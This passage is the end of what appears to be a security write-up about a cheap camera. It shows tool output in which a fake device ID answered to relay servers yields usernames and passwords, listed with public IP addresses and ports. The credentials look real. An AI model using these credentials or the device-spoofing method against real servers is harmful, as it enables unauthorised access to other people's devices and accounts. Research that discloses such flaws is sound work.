 ```
[+] Valid relay server IP address found: 118.190.204.96:53067
[*] Responding to relay server with device ID: 12345678.
[+] Username: 15214040382
[+] Password: mj13893408103

[+] Valid relay server IP address found: 119.3.37.82:61317
[*] Responding to relay server with device ID: 12345678.
[+] Username: 12345678
[+] Password: a123456

[+] Valid relay server IP address found: 120.78.134.35:50489
[*] Responding to relay server with device ID: 12345678.
[+] Username: ycl
[+] Password: 138830yc

[+] Valid relay server IP address found: 39.108.13.9:65229
[*] Responding to relay server with device ID: 12345678.
[+] Username: admin
[+] Password: okok591939
```

It appears that someone is attempting to brute-force passwords for some of these devices!


## Thoughts
*matt: cheap camera bad
thanks to work for buying camera (yes, do it) and maybe your friend for helping
like subscribe follow*
